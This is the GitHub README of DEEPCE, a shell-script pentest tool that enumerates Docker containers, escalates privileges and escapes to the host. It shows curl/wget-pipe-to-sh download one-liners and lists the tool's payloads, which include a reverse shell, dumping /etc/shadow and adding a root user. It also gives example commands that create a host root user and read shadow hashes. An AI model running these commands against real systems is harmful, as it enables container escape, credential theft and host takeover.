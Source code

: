 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

![ShellCheck](https://github.com/stealthcopter/deepce/workflows/ShellCheck/badge.svg)
![ContainerTests](https://github.com/stealthcopter/deepce/workflows/ContainerTests/badge.svg)

[Website](https://stealthcopter.github.io/deepce/)

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependencies. It will make use of additional tools such as curl, nmap, nslookup and dig if available but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for anymore please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk when downloading.

```bash
wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/master/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/master/docs)
![screenshot1](docs/images/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker sock

## Exploits

- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
# Make the script executable and then run it
chmod +x ./deepce.sh
./deepce.sh 
```

## Exploits
The following examples show the different kinds of exploits that can be performed and the avaliable payloads.

- Exploit a privileged container to create a new root user on the host operating system:
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```

- Exploit a writable docker sock file in order to print the contents of `/etc/shadow`
```bash
./deepce.sh --no-enumeration --exploit SOCK --shadow
```

- Escalate to root via membership to the docker group on a host and run a custom payload
```bash
./deepce.sh --no-enumeration --exploit DOCKER --command "whoami>/tmp/hacked"
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable to easily set arguments (direct manipulation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. However I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependencies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developers looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request
